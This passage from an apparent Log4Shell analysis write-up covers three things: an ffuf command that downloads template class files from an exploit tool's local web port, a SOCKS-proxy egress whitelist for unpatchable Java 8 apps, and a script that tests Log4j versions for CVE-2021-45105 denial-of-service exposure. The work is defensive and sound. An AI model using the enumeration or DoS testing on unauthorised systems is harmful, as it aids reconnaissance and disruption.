The name of the class file have this format: `ExecTemplateJDK[0-9].class`:



So, it is possible once the web port was identified, to try downloading all templates class files compiled with the configured command using [FFUF](https://github.com/ffuf/ffuf):

```bash
$ ffuf -c -w nbr.txt -u "http://127.0.0.1:9999/ExecTemplateJDKFUZZ.class" -fs 0
``` 




# Case of non patchable application

It can happen a case in which an app do not support the last patched version of log4j due to different reasons like: old business application, app for which the vendor stopped the support, app for which the vendor do not exsits anymore and so on...

If the app run on Java **<= 8** then the following idea can be tried: 

💡 These versions of java (I have tested on Java 8) support an undocumented JVM property named `socksNonProxyHosts` allowing to leverage a SOCKS proxy as a "firewall" at JVM level.

This property specify IPs/Hosts for which a SOCKS proxy **must not be applied**, so, using the associated official [SOCKS properties](https://docs.oracle.com/javase/8/docs/technotes/guides/net/proxies.html) (*section 2.4*) `socksProxyHost / socksProxyPort`, it is possible to define a whitelist of IPs/Hosts (via the JVM) to which the app can connect to.

**Test sample code:**

The code try to contact an internal and a external hosts via an HTTP GET request, access to the external host is not expected in this case.



**Test on Java 8:** Property `socksNonProxyHosts` supported



**Test on Java 11:** Property `socksNonProxyHosts` not supported



**Test on Java 17:** Property `socksNonProxyHosts` not supported



I have tested on Java 8/11/17 because they are [Long-Term Support](https://en.wikipedia.org/wiki/Java_version_history) (LTS) official versions.

‼️ Ensure that no HTTP/HTTPS/FTP proxy is defined via its associated properties because it have a higher priority, below is an extract of the [documentation](https://docs.oracle.com/javase/8/docs/technotes/guides/net/proxies.html):



# Note about exposure to DOS

This issue was bring by the [CVE-2021-45105](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105).

The following unit test case was provided to detect exposure:

[Log4ShellDOSExposureTest.java](https://github.com/righettod/log4shell-analysis/blob/main/sandbox/src/test/java/eu/righettod/Log4ShellDOSExposureTest.java)

The following script, named `testDOSExposure.sh`, was created and used in combination with the unit test above to identify which version was affected:

```bash
#!/bin/bash
echo "[+] JDK"
java -version
echo "[+] TEST"
while IFS= read -r line
do
  mvn -q -D"test=Log4ShellDOSExposureTest" -D"log4j2.target.version=$line" -D"log4j2.formatMsgNoLookups=true" clean test 1>/dev/null 2>&1
  rc=$?
  if [ $rc -ne 0 ]
  then
    echo "[RC: $rc] Version $line IS vulnerable."
  else
    echo "[RC: $rc] Version $line IS NOT vulnerable."
  fi
done < "all-versions.txt"
```

Below is the result of its execution - The flag `log4j2.formatMsgNoLookups` was enabled to perform the test with all defensive measures actives on versions supporting it:



Not all versions below the **2.17.0** were exposed and the results is interesting. Indeed, old version like for example **2.4** (2016-05-30) is not vulnerable but a recent version like for example **2.14.1** (2021-03-12) is vulnerable.

So, it is important to test the version used because exposure is not systematic!

A test was performed on Java8 on a non-vulnerable version and even if an OutOfMemory error occurs, the main program continue and finish normally:



On the **2.4**, the OutOfMemory error is not triggered at all:



Same behavior for **2.4.1** and **2.5**:






